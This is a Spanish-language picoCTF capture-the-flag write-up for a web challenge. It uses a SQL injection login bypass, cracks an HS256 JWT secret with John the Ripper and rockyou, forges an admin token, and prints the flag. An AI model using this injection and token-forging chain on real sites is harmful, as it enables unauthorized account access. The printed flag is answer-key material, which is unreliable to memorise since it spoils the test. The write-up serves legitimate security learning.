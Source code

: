 # JaWT Scratchpad

## Descripcion
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864
## Solucion
Nos conectamos al sitio que nos proporciona el link y vemos que nos pide que iniciemos sesion como admin, entonces probamos usando `admin` y nos dice que no nos podemos loggear asi, probamos usando una inyeccion sql: 
```sql
admin' or 1=1--
```
Y vemos que esta vez si nos pemitio acceder, pero realmente no vemos nada interesante, vamos a burpusite para ver como es que se realiza la peticion y ver si esto nos da alguna pista:
Cuando ingresamos como admin:
```
POST /problem/61864/ HTTP/1.1
Host: jupiter.challenges.picoctf.org
Content-Length: 24
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://jupiter.challenges.picoctf.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://jupiter.challenges.picoctf.org/problem/61864/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

user=admin%27+or+1%3D1--
```
Cuando ya somos admin:
```
GET /problem/61864/ HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4nIG9yIDE9MS0tIn0.eSN-wAvaWMmD0imnj5Lzbxm0YuN5se92LqwaRqhaA3g
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://jupiter.challenges.picoctf.org/problem/61864/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Y vemos que hay una cookie jwt, por lo cual ahora buscamos una herramienta online para ver que contiene:
Vemos que nos devuelve un header con:
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```
Y un payload:
```
{
  "user": "admin' or 1=1--"
}
```
Pero nadamas, entonces probamos a cambiar la cookie tal cual escribiendo "admin", y vemos que al guardarla, nos da error, esto se debe a que el jwt tiene una firma de seguridad.
Viendo las pistas y el link al que hace referencia la propia pagina, talvez debamos de hacer un ataque de fuerza bruta para averiguar cual es el 'secret' que se uso, para lo cual tomamos la cookie original que teniamos y hacemos uso de JohnTheRipper:
Vamos a usar rockyou
```sh
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4nIG9yIDE9MS0tIn0.eSN-wAvaWMmD0imnj5Lzbxm0YuN5se92LqwaRqhaA3g" >> jwt

┌──(xrengariox㉿PC)-[~/Downloads]
└─$ john jwt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:00 DONE (2025-03-29 20:00) 1.538g/s 11393Kp/s 11393Kc/s 11393KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
Nos dice que se uso la palabra ilovepico, entonces ahora vamos a un encoder de jwt y le decimos que use esa palabra como firma, nos devuelve la siguiente cookie:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.wM6gp2b10dfxTFrAmGoeSSo2LDGyJyKYHh7IrxIc-KA
```
La pegamos en la pagina, y el sitio nos devuelve la flag:

```flag
picoCTF{jawt_was_just_what_you_thought_1ca14548}
```

## Notas adicionales

## Referencias
https://jwt.io
https://10015.io/tools/jwt-encoder-decoder
